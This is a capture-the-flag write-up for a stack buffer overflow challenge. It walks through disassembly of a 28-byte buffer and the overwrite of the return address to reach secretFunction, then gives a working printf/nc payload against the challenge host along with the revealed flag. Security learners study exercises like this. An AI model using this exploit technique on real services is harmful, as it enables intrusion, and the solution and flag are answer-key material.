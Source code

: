 **Name**: Smash the Stack  
**Points**: 250  
**Instructions**: Exploit the vulnerable [smash-the-stack](https://challenges.runesec.com/static/322479ef49ce2bf103e538e898de875a/smash-the-stack) service running at challenges.runesec.com:29761.  
**Hint**: It's a secret!  

## Exploration
- The name of this challenge suggests the service provided is vulnerable to buffer overflow attacks.

- Usually this is a result of using memory manipulation functions that don't take the length of the input into consideration. For example, `strcpy()` instead of `strncpy()`, `strcat()` instead of `strncat()`, etc.

- We open the file in radare2. `main` calls a function named `echo`. It asks for our input.

- `echo` reads our input in a 28-bytes long buffer
```
0x080485dc  68eb860408  push str.Enter_some_text: ; str.Enter_some_text: ; "Enter some text:" @ 0x80486eb
0x080485e1  e81afeffff  call sym.imp.puts         ;[1]
0x080485e6  83c410      add esp, 0x10
0x080485e9  83ec08      sub esp, 8
0x080485ec  8d45e4      lea eax, [ebp - 0x1c]     ;[2]
```
*0x1c in hexadecimal is 28 in decimal*  

- We also notice a function named `secretFunction` which makes a call to the system to open `file.txt`. We need to call that function.

- Calling that function is trivial with the help of gdb on our machine. But, obviously, there's no `flag.txt` on our machine. 

- We need to somehow give a crafted input to the online service that will make it call `secretFunction` and give us the flag.

- Maybe we can overwrite the return address of `echo` and make it return the flow to `secretFunction`, instead of back to main.

- `secretFunction` is at address `0x0804856b`.

## Exploitation
- Since our input will only stop being copied in the buffer until a null terminator is found, we can give an input as long as we desire.  

- We know that anything beyond 28 bytes - the maximum length expected - has free reign on other memory spaces that follow.  
After the buffer, theres a Saved Frame Pointer and then the Return Address Pointer.  
```
buffer                        sfp   ret  
[             28             ][ 4  ][ 4  ]
```

- Pointers in 32-bit architectures are 4 bytes long.

- Return Address Pointer holds the address that the function was called from so it knows where to, well, return. We can overwrite that address space with our crafted input so it contains the address of `secretFunction`.
```
buffer                        sfp   ret 
[aaaaaaaaaaaaaaaaaaaaaaaaaaaa][aaaa][\x6b\x85\x04\x08]
```

#### Solution
```
$ echo -e "`printf 'a%.0s' {1..32}`\x6b\x85\x04\x08" | nc challenges.runesec.com 29761
Enter some text:
You entered: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaak�
y0u f0unD the s3cr3t fuNcti0n!
flag{4a354d3c8d8779a9b57430c028e1a390}
```
